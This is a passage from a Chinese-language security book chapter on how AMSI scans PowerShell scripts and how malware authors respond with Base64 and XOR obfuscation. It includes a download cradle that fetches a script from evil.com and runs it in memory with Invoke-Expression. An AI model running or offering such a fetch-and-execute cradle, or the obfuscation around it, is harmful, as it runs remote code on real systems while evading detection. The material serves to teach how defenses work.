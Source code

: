 Listing 10-1: 在 PowerShell 中解码 Base64 字符串

代理再次利用语言仿真解码脚本中的数据，并扫描其是否包含恶意内容。为了应对这一成功，恶意软件开发者将策略从简单的编码转向了加密和算法编码，例如使用异或（XOR）。例如，Listing 10-2 中的代码首先解码 Base64 编码的数据，然后使用两个字节的密钥<samp class="SANS_TheSansMonoCd_W5Regular_11">gg</samp>对解码后的字节进行 XOR 运算。

```
$key = "gg"
$data = "CgYLEAYVAg=="
$bytes = [System.Convert]::FromBase64String($data);

$decodedBytes = @();
for ($i = 0; $i -lt $bytes.Count; $i++) {
    $decodedBytes += $bytes[$i] -bxor $key[$i % $key.Length];
}
$payload = [system.Text.Encoding]::UTF8.getString($decodedBytes);
Write-Host $payload;
```

Listing 10-2: PowerShell 中的 XOR 示例

这种加密趋势超出了反恶意软件引擎能够合理仿真的范围，因此基于混淆技术本身存在的检测变得普遍。这也带来了自身的挑战，因为正常的、无害的脚本有时也会使用看似混淆的技术。Microsoft 在其帖子中提出的示例，成为了在内存中执行 PowerShell 代码的标准之一，即 Listing 10-3 中的下载框架。

```
PS > **Invoke-Expression (New-Object Net.Webclient).**
**>> downloadstring("****https://evil.com/payloadl.ps1")**
```

Listing 10-3: 一个简单的 PowerShell 下载框架

在这个示例中，.NET 的 <samp class="SANS_TheSansMonoCd_W5Regular_11">Net.Webclient</samp> 类用于从任意站点下载 PowerShell 脚本。当这个脚本被下载时，它不会写入磁盘，而是作为字符串存在于内存中，与 <samp class="SANS_TheSansMonoCd_W5Regular_11">Webclient</samp> 对象绑定。接着，攻击者使用 <samp class="SANS_TheSansMonoCd_W5Regular_11">Invoke-Expression</samp> cmdlet 将这个字符串作为 PowerShell 命令执行。这种技术使得载荷的任何操作（例如部署新的命令与控制代理）完全在内存中发生。

## <samp class="SANS_Futura_Std_Bold_B_11">AMSI 的工作原理</samp>

AMSI 扫描一个目标，然后使用系统上注册的反恶意软件提供程序来确定它是否是恶意的。默认情况下，它使用反恶意软件提供程序 Microsoft Defender IOfficeAntivirus（*MpOav.dll*），但第三方 EDR 供应商也可以注册他们自己的提供程序。Duane Michael 在他的 GitHub 项目“whoamsi”中维护了一个注册 AMSI 提供程序的安全供应商列表。

AMSI 最常见的应用场景是由包含脚本引擎的应用程序使用（例如，接受任意脚本并使用相关引擎执行它们的应用程序），处理内存中不可信的缓冲区，或与非 PE 可执行代码（如 *.docx* 和 *.pdf* 文件）交互。AMSI 已集成到许多 Windows 组件中，包括现代版本的 PowerShell、.NET、JavaScript、VBScript、Windows 脚本宿主、Office VBA 宏和用户帐户控制（UAC）。它还集成到 Microsoft Exchange 中。

### <samp class="SANS_Futura_Std_Bold_Condensed_Oblique_BI_11">探索 PowerShell 的 AMSI 实现</samp>

由于 PowerShell 是开源的，我们可以检查其 AMSI 实现，以了解 Windows 组件如何使用这个工具。在本节中，我们将探讨 AMSI 如何尝试限制应用程序执行恶意脚本。

在 *System.Management.Automation.dll* 中，这个 DLL 提供了托管 PowerShell 代码的运行时环境，其中存在一个非导出的函数 <samp class="SANS_TheSansMonoCd_W5Regular_11">PerformSecurityChecks()</samp>，负责扫描提供的脚本块并确定它是否是恶意的。这个函数由 PowerShell 创建的命令处理器在编译前的执行管道中调用。示例 10-4 中的调用栈，在 dnSpy 中捕获，展示了脚本块在被扫描之前的执行路径。
